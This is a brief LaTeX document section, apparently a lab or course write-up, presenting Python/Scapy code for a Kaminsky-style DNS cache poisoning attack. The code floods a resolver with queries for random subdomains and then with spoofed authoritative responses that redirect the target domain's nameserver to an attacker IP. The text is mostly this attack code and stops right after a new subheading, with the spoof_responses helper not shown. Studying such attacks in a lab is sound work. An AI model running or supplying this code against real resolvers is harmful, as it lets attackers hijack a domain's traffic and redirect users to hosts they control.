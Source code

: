 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{DNS Cache Poisoning Attack Implementation}

The attack script implements the Kaminsky methodology with realistic transaction ID randomization:

\begin{lstlisting}[language=python, caption=Main Attack Function]
def run_attack(resolver_ip, attacker_ip, real_ns_ip, target_domain, 
               num_requests, num_responses):
    """Execute Kaminsky-style DNS cache poisoning attack"""
    
    # Generate random subdomain to trigger fresh queries
    random_subdomain = str(random.randint(10000, 99999)) + "." + target_domain
    fake_ns_domain = "ns.attacker-lab.com"
    
    print(f"[*] Using random subdomain: {random_subdomain}")
    
    # Phase 1: Send legitimate queries to trigger DNS resolution
    print(f"[*] Sending {num_requests} initial queries...")
    for i in range(num_requests):
        txid = random.randint(0, 65535)  # Full TXID range for queries
        src_port = random.randint(1024, 65535)  # Random source port
        
        query_packet = IP(dst=resolver_ip) / \
                      UDP(sport=src_port, dport=53) / \
                      DNS(id=txid, rd=1, qd=DNSQR(qname=random_subdomain))
        send(query_packet)
    
    # Phase 2: Flood with spoofed responses
    dns_payload = DNS(
        qr=1, aa=1,  # Response, Authoritative
        qd=DNSQR(qname=random_subdomain),
        an=DNSRR(rrname=random_subdomain, ttl=86400, rdata=attacker_ip),
        ns=DNSRR(rrname=target_domain, type='NS', ttl=86400, 
                 rdata=fake_ns_domain),
        ar=DNSRR(rrname=fake_ns_domain, ttl=86400, rdata=attacker_ip)
    )
    
    print(f"[*] Flooding with {num_responses} spoofed responses...")
    spoof_responses(resolver_ip, real_ns_ip, dns_payload, num_responses)
\end{lstlisting}

\subsubsection{Realistic Transaction ID Strategy}

Instead of sequential TXIDs, the attack uses realistic randomization:
\end{document}
